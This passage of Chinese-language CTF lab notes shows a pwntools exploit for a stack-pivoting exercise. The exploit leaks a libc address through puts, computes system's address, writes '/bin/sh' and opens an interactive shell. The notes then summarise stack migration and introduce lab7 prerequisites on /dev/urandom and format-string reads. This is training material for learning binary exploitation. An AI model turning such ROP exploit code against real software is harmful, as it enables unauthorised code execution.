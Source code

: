 ```python
 
log.info("*********************leak libc memory address*********************")
 
payload1 = p32(buf2) + p32(puts_plt) + p32(pop1ret) + p32(puts_got) + p32(read_plt) + p32(leave_ret)
payload1 += p32(0) + p32(buf2) + p32(0x100)
p.send(payload1)
 
puts_add = u32(p.recv(4))
lib_base = puts_add - puts_lib
print "libc base address-->[%s]"%hex(lib_base)
system_add = lib_base + system_lib
print "system address -->[%s]"%hex(system_add)
 
log.info("*********************write binsh*********************")
payload3= p32(buf) + p32(read_plt) + p32(pop3ret) + p32(0) + p32(buf) + p32(0x100) + p32(system_add) + 'bbbb' + p32(buf)
p.send(payload3)
p.send("/bin/sh\0")
p.interactive()
```

##### 参考：

- https://blog.csdn.net/yuanyunfeng3/article/details/51456049
- https://blog.csdn.net/zszcr/article/details/79841848

总结：栈迁移是再写入空间不够的时候，通过leave_ret这类收尾的代码来把ebp和esp改到某个地址固定的位置，通过控制ret的地址和ebp指针向我们指定的位置写值，通常是一段不完整的rop代码，通过不断迁移把rop代码一段一段的写完，最后通过leave_ret到rop代码上面4字节（x86）来实现rop的调用。

### lab7

##### 前期知识

- 在UNIX操作系统（包括类UNIX系统）中，**/dev/random**是一个特殊的设备文件，可以用作随机数发生器或伪随机数发生器。
- open(文件描述符，权限flags)
  - fd = open("/dev/urandom", 0);  以只读方式打开随机数发生器
  - read(fd, &password, 4u); 随机获取4字节密码，password位于bss段中

```c++
#define O_RDONLY	00000000   //只读
#define O_WRONLY	00000001   //只写
#define O_RDWR		00000002   //读写
//定义在fcntl.h中
```

- 字符串转整型【按十进制数】：int atoi(const char *nptr) 扫描参数 nptr字符串，跳过空白字符（例如空格，tab缩进）等后开始转化，直到遇到一个非数字字符终止【可以接受开头为+或-】，返回结果。

  - 如果 nptr完全不能转换成 int 或者 nptr为空字符串，那么将返回 0 。
  - atoi输入的字符串对应数字存在大小限制（与int类型大小有关），若其过大可能报错-1。

- 格式化字符串漏洞回顾

  - 泄露栈帧值：利用<u>%order$s</u>来获取指定第order个参数对应地址的内容
  - 任意地址读：printf(s)的时候，第一个参数s是该格式化字符串的地址。假设该格式化字符串相对函数调用为第k个参数。可以通过<u>addr%k$s</u>来获取某个指定地址addr的内容。
